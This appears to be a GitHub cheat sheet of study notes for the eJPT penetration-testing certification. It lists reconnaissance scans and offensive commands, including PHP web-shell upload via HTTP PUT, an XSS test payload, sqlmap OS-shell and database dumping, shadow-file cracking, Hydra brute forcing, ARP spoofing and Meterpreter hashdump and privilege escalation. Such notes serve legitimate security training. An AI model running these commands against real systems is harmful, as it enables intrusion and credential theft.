 ## eJPT Notes
**This notes will gide you through all the commands and tools which are given in the official eJPT material. Make sure to replace the ip addresses and port numbers when you use it**
**Routing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ip route add ROUTETO via ROUTEFROM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**whois**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whois site.com
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Ping Sweep**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fping -a -g 10.10.10.0/24 2>/dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sn 10.10.10.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Nmap Scans**
**OS Detection**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -Pn -O 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Full)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -p- 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (UDP Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sU -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Banner Grabbing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**OpenSSL for HTTPS services**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Httprint**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**HTTP Verbs**
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wc -m shell.php
x shell.php


PUT /shell.php
Content-type: text/html
Content-length: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Directory and File Scanning**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirsearch.py -u http://10.10.10.10 -e *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirb http://10.10.10.10/ -u username:pass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Advanced Google Searches**
`site:`
`intitle:`
`inurl:`
`filetype:`
`AND, OR, &, |, -`

------------


**Cross Site Scripting (XSS)**
Steps:
1. Find a reflection point
2. Test with `<i>` tag
3. Test with HTML/JavaScript code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script>alert(1)</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Reflected XSS:**
Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
**Persistent XSS:**
Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

------------


**SQLMap**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --os-shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------

**Password Attacks**
Unshadow
This prepares a file for use with John the Ripper

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
unshadow passwd shadow > unshadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Hash Cracking**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john -wordlist /path/to/wordlist -users=users.txt hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Network Attacks**
**Brute Forcing with Hydra**
replace ‘ssh’ with any relevant service

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt telnet://10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Windows Shares Using Null sessions**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmblookup -A 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**List shares**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L //10.10.10.10 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Mount share:**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient //10.10.10.10/share -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
enum4linux -a 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**ARP spoofing**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 1 > /proc/sys/net/ipv4/ip_forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Metasploit**
Basic Metasploit Commands

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Meterpreter**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
background

sessions -l

sessions -i 1

sysinfo, ifconfig, route, getuid

getsystem (privesc)

bypassuac

download x /root/

upload x C:\\Windows

shell

use post/windows/gather/hashdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


